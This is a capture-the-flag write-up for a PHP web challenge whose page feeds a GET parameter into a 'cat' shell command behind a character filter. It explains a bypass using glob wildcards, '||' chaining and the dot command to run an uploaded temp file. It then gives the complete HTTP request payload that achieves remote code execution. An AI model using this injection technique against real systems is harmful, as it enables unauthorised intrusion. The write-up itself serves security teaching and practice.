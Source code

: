 # Web - Shero (491)

## Challenge

```php
Warning: Undefined array key "f" in /var/www/html/index.php on line 2
<?php
    $file = $_GET['f'];
    if (!$file) highlight_file(__FILE__);

    if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {
        die("cat only");
    }

    if (isset($file)) {
        system("cat " . $file);
    }
?>

Deprecated: preg_match(): Passing null to parameter #2 ($subject) of type string is deprecated in /var/www/html/index.php on line 5
```

We can only execute system commands using the `?f=` GET parameter which has a rather strict regex. Using the following script, we can enumerate the possible characters we can use.

```python
from string import printable
import re
pattern = "[^.cat!? /\|\-\[\]\(\)\$]"

alphabet = ''
for i in printable:
    if(not re.search(pattern, i)):
        alphabet += i
print(alphabet)
```

Which gives us the following alphabet.

```
act!$()-./?[]|
```

I'll list a bunch of interesting properties of the characters we have that we can leverage

| Character | Utility                                                                                                                                                                                                                                                                                                                                                                                              |
| --------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `$()`     | Can be used for command substitution (but not needed for our exploit).Some more info [here](https://stackoverflow.com/questions/17984958/what-does-it-mean-in-shell-when-we-put-a-command-inside-dollar-sign-and-parenthe)                                                                                                                                                                           |
| `?`       | Can be used as wildcards, e.g. `???/???/?at` can refer to `/usr/bin/cat`                                                                                                                                                                                                                                                                                                                             |
| `\|`      | Pipe operator, can be used to transfer the output of the first command to subsequent commands. More suitably used to run multiple commands. Alternatively can also be used as an `\|\|` OR operator to run 2 commands (or more)                                                                                                                                                                      |
| `.`       | While typically it usually just refers to the current working directory or relative path notation, it actually also can mean to use the current Bash environment context to read and execute commands in a file. E.g. `. /hello` means to execute commands in the `/hello` file. See more [here](https://www.shell-tips.com/bash/source-dot-command/#gsc.tab=0)                                      |
| `[x-y]`   | Globbing! A very critical part of our exploit, this basically allows us to select that the current character's ASCII must be anywhere between the ASCII of `x` and the ASCII of `y`. To give an example, a command like `/usr/bin/[b-d]a[s-u]` will match the command `/usr/bin/cat`. This is critical for us to filter out certain files while globbing especially given our limited cahracter set. |

This solution may have been an unintended one but basically when you send a `POST` request to a php server, it uploads your file into a default folder of `/tmp/phpxxxxxx` where the `x` characters are random upper and lower case letters. This is perfect for us to guess as we can use the `?` glob wildcard characters to access this file.

However, there's a small problem, given the characters of our alphabet, we can only construct `/???/?????????` to access such a file and there are wayyy too many files that have such a path.

We need a way of filtering out the useless files and only select our file. And we have just nice the operators `[-]` which can allow us to filter out certain characters. We want to only match uppercase characters (each command may have to try multiple times in hopes of matching the appropriate file you want), so from our character set we can use `[?-]]` which matches the ASCII range of 63-93, a bit wider than needed but will suffice for our purposes.

Now we have remote code execution!

The `GET` parameter payload is

```
a||. /???/????????[?-[]
```

Note: We just use an invalid command `a` for the first part which will fail and thus trigger the second command after the `||` operator.

Here's the full payload (with url encoded parameters)

```
POST /?f=a%7C%7C.%20/???/????????%5B?-%5B%5D HTTP/1.1
Host: challs.nusgreyhats.org:12325
Connection: close
Accept-Encoding: gzip, deflate
Accept: /
Content-Length: 109
Content-Type: multipart/form-data; boundary=deadbeef

--deadbeef
Content-Disposition: form-data; name="file"; filename="file"

ls -la
--deadbeef--
```

We can discover that there is a `/readflag` binary and a `flag.txt` in the root directory but it seems that we don't have sufficient permission to directly read out the `flag.txt`. We can `cat` out the binary and see what's the next step.

![binary](../images/shero-2.png)

It seems that we just need to pass in the jumbled up parameter `sRPd45w_0` to the binary to read the flag. Given that we have full RCE, it is pretty trivial to read it out

## Flag

![solve](../images/shero.png)

```
grey{r35p3c7_70_b45h_m4573r_0dd14e9bc3172d16}
```

## Note

All credits to @Al1enX for this first blood solve
Ref: [here](https://m.freebuf.com/articles/network/279563.html)
